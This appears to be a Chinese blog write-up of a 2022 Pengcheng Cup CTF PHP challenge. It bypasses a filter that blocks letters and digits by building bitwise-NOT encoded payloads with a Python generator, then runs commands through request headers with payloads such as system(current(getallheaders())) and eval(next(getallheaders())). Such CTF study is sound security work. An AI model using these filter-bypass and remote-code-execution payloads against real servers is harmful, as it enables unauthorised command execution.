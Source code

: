 # [鹏城杯 2022]简单的php 取反的另一种无数字字母rce 通过请求头执行命令

[鹏城杯2022部分web-CSDN博客](https://blog.csdn.net/qq_44640313/article/details/130362254) 

 [无字母webshell | Bypass-腾讯云开发者社区-腾讯云](https://cloud.tencent.com/developer/article/2287228) 

这里记录一下

```scss
首先获取过滤
 
if(strlen($code) > 80 or preg_match('/[A-Za-z0-9]|\'|"|`|\ |,|\.|-|\+|=|\/|\\|<|>|\$|\?|\^|&|\|/is',$code))
```

写个脚本看看还有什么没有被过滤

```php
<?php 
 
for ($ascii=0; $ascii < 256; $ascii++){
    if(!preg_match('/[A-Za-z0-9]|\'|"|`|\ |,|\.|-|\+|=|\/|\\|<|>|\$|\?|\^|&|\|/is',chr($ascii))){
            echo chr($ascii);
    }
}
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/20a55a1663265e2684d630a8aad65c24.png" alt="" style="max-height:24px; box-sizing:content-box;" />


过滤的很死 但是放出来了几个字符 我们去

构造取反

```cobol
exp = ""
def urlbm(s):
    ss = ""
    for each in s:
        ss += "%" + str(hex(255 - ord(each)))[2:]
    return f"[~{ss}][!%FF]("
while True:
    fun = input("Firebasky>: ").strip(")").split("(")
    exp = ''
    for each in fun[:-1]:
        exp += urlbm(each)
        print(exp)
    exp += ")" * (len(fun) - 1) + ";"
    print(exp)
```

介绍一下原理

```cobol
这里我们需要通过[] 来执行
 
[~%8f%97%8f%96%91%99%90] 这里是 [phpinfo]
 
[] 会进行执行 然后将返回内存存储为数组 然后我们需要取出数组内的东西
 
[~%8f%97%8f%96%91%99%90][!%ff] 这里是phpinfo
 
[!%ff] 这里类似于 [0] 会获取到第一位 即phpinfo
 
 
然后补上括号即可
[~%8f%97%8f%96%91%99%90][!%FF]();
 
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/b12113a15b5286c28bb0212dd8274f53.png" alt="" style="max-height:823px; box-sizing:content-box;" />


代码执行成功

说明可行 那么我们就继续

这里我们需要思考如何可以

然后这里发现啥都没过滤 那么可以直接来执行咯

这里就按照其他师傅的样子 来请求头执行

```lisp
system(current(getallheaders()));
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/250eb51fdf6d7c34fc84c9637f85d189.png" alt="" style="max-height:112px; box-sizing:content-box;" />


执行命令

这里需要注意 这里是无参数命令执行 加入参数就无法实现

```lisp
eval(hex2bin(session_id(session_start())));
 
print_r(current(get_defined_vars()));&b=phpinfo();
 
eval(next(getallheaders()));
 
var_dump(getenv(phpinfo()));
 
print_r(scandir(dirname(getcwd()))); //查看上一级目录的文件
 
print_r(scandir(next(scandir(getcwd()))));//查看上一级目录的文件
```

这里就结束了